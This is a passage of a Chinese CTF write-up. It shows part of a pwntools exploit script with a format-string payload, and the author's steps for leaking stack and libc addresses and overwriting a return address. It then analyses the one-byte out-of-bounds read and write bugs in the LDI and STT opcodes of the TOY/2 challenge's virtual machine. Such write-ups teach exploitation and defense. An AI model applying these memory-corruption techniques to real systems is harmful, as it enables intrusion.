 ```py
payload3 = b";$0;"
# payload3 += b"%"+str((libc_base + libc.symbols["system"])%0x100000000-4).encode("latin-1")+b"c%8$n"
# payload3 = payload3.ljust(0x10, b"A")
# payload3 += p64(stack_addr-0xb0)
p.recvuntil("the black cat asked.\n")
p.sendline(payload3)
# leaks = p.recv(0x1c).split(b"0x")
# # libc_leak = int(leaks[0], 16)
# stack_leak = int(leaks[1], 16)
# libc_base = libc_leak - 0x2a1ca
# print("libc_leak: ", hex(libc_leak))
# print("stack_leak: ", hex(stack_leak))
p.interactive()
```
思路如下：
- 第一次回 main 函数 + leak stack，partial overwrite 返回地址（因为返回 main 的时候最后一个字节可以是 0xac）但是这个需要爆破 1/4096
- 第二次 覆盖返回地址回 main ，很遗憾因为长度限制不能 leak
- 第三次 leak libc 覆盖返回地址为 start
- 然后 one_gadget 不能用 就 gg 了  
- 但是感觉还是挺壮观的hhh 有一些有点 dirty 的 trick    

## TOY/2
这道题比赛的时候没有多少队做出来，是一个比较简单的虚拟机，但是实际上难度小于强网杯的今年的虚拟机和2021年的 vmnote    
这个题笔者只在 leak libc 的时候卡了一下 别的都挺简单的（但是比赛看解这么少就没做，有点可惜了，虽然应该也是那种一个比赛做一道题的那一类吧）     

### 漏洞
```c
      case 12: /* LDI */ // 漏洞：可以在 span 外多读出一个字节
        _regs.a = mem_read(_regs.a & (size() - 1));
        break;

      case 13: /* STT */  // 漏洞：可以在 span 外多写入一个字节
        mem_write(_regs.a & (size() - 1), _regs.t);
        break;
```
对比一下，其他 load store 都是有 check 的类似于如下   
```c
  case 15: /* STA dest */
    validate_dest(addr);
    mem_write(addr, _regs.a);
    break;
```
然后 validate_dest 和 validate_src 都是类似     
```c 
inline void validate_dest(Addr addr) {
    if (addr > size() - 2)
      throw std::out_of_range("Address out of range (write)");
  }
```
而我们的 vm 结构如下
```c
struct vm{
  void* func_table;
  char data[4096];
  void *data_ptr = data;
  long long size = 4096;
  struct {
    Reg pc;
    Reg a;
    Reg t;
    bool c;
    bool z;
```
